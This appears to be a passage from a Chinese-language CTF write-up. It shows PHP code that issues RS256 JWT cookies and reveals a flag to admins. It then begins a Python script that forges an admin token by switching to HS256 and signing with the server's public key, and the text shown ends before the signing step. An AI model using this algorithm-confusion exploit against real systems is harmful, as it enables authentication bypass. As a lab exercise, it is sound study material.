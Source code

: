 ```php+HTML
                'username' => $_POST['username'],
                'role'=> 'guest',
            );
            $token = JWTHelper::encode($jwt_payload, $PRIVATE_KEY, 'RS256');
        }
        @setcookie("token", $token, time()+1800);
        header("Location: /index.php");
        exit();
    } else {
        @setcookie("token", "");
        header("Location: /index.php");
        exit();
    }
} else {
    if(!empty($_COOKIE['token']) && JWTHelper::decode($_COOKIE['token'], $PUBLIC_KEY) != false) {
        $obj = JWTHelper::decode($_COOKIE['token'], $PUBLIC_KEY);
        if ($obj->role === 'admin') {
            echo $FLAG;
        }
    } else {
        show_source(__FILE__);
    }
}
?>
```

进入页面，注册admin/123456,查看cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6Imd1ZXN0In0.wVLgMjzI-NnAeVTL4aMLuARJPJsizGuJc6wbP3dq5ExxlciEgcC3Ln2TU7pxSo8MV-MiofGd6lrBDXsBwTRUly4FiiMN1fOjRRQNZtVV4oEc1l9u21PxZt94uiMgePVK2U1nIqBZnl50HqCzqq4KH5M7zJiLKBBuYa9qr7y3uFmJYWIN2xKmi9xmQg1Ax2wnoGbXbtQWzex9mZ8nLjAWhulnhHbUlpYkiIKemoh23tR0PHbYlHxjAkQQdLJbxYv4RDMx80wrGHbbhSRRjn9_9ZVp06coL37VXr2heDokutzl_-5iFtPV51vJLMzBWyx4NUqELjzlW45GF1LXuPhcSg
```

![image-20240827170553593](https://gitee.com/bx33661/image/raw/master/path/image-20240827170553593.png)

```python
# -*- coding: utf-8 -*-
import hmac
import hashlib
import base64

# 打开并读取 publickey.pem 文件
with open('publickey.pem', 'r') as file:
    key = file.read()

# 定义 JWT 的头部和载荷
header = '{"typ": "JWT", "alg": "HS256"}'
payload = '{"username": "admin", "role": "admin"}'

# 编码头部
encodeHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodeHeader = str(encodeHBytes, "utf-8").rstrip("=")

# 编码载荷
encodePBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodePayload = str(encodePBytes, "utf-8").rstrip("=")

# 拼接头部和载荷
token = encodeHeader + "." + encodePayload

# 创建签名
```